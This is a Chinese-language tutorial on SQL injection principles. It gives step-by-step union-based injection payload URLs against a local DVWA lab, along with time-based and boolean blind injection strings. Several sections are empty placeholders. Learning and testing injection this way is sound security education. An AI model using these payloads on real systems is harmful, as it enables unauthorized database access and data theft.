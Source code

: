 # SQL注入原理
?> 在学习SQL注入之前，你需要掌握[SQL基础](SQL)部分。

SQL注入是注入攻击的一种，攻击者可以执行恶意SQL语句。利用SQL注入漏洞，攻击者可以检索、添加、修改和删除数据库中的记录，甚至可以获取数据库服务器权限。

![SQL injection](../../assets/img/sql-injection.svg)

## SQL注入类型

### 联合查询注入

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

1. 寻找注入点，判断是否存在注入

   尝试添加单引号。如果提示语法错误，说明可能存在注入漏洞。
   
   ```
   id=1'
   ```
   错误信息
   
   ```
   You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1
   ```
   产生语法错误的原因，SQL语句多了单引号，无法正确闭合。
   ```sql
   SELECT first_name, last_name FROM users WHERE user_id = '1'';
   ```

2. 判断字段数

   使用`ORDER BY`查询语句，采用二分法，得字段数为2。
   ```
   id=1' order by 1%23 //正常
   id=1' order by 2%23，//正常
   id=1' order by 3%23 //报错
   ```

3. 判断显示位

  ?> 令`id=-1`，即第一个查询语句返回结果为空，在只显示一条结果的情况下，可以展示我们构造的第二个查询语句结果。另外，显示内容字段位置，称之为`显示位`。
  ```
  http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=-1' UNION SELECT 1,2%23&Submit=Submit#
  ```
  显示位是1和2
  ![image-20210820171654815](../../assets/img/image-20210820171654815.png)

4. 读取内容

   - 数据库

     ```
     http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=-1' union select 1,group_concat(schema_name)+from+information_schema.schemata%23&Submit=Submit
     ```

   - 表名

     ```
     http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=-1' UNION SELECT 1,group_concat(table_name) FROM information_schema.tables WHERE table_schema= database()#&Submit=Submit
     ```

   - 字段名

     ```
     http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=-1%27%20UNION%20SELECT%201,group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_schema=database()%20AND%20table_name=%27users%27%23&Submit=Submit
     ```

### 报错注入

### 盲注

盲注，特点是页面不显示查询结果和错误信息。

#### 基于时间的盲注

if(条件，成立，不成立)
```sql
mysql> select if(2>1,sleep(5),666);
+----------------------+
| if(2>1,sleep(5),666) |
+----------------------+
|                    0 |
+----------------------+
1 row in set (5.00 sec)
```

```
id=1’ and if(ascii(substr(database(),1,1))>100,sleep(1),2=1)%23
```

#### 基于布尔的盲注

```
id=1' and (select ascii(substr(database(),2,1))>114)%23
```

条件成立，页面显示正常，否则不正常

### 带外通道注入

### 二次注入

### 宽字节注入

## 参考资料

- PortSwigger，[SQL Injection](https://portswigger.net/web-security/sql-injection)
- OWASP，[SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [The SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)

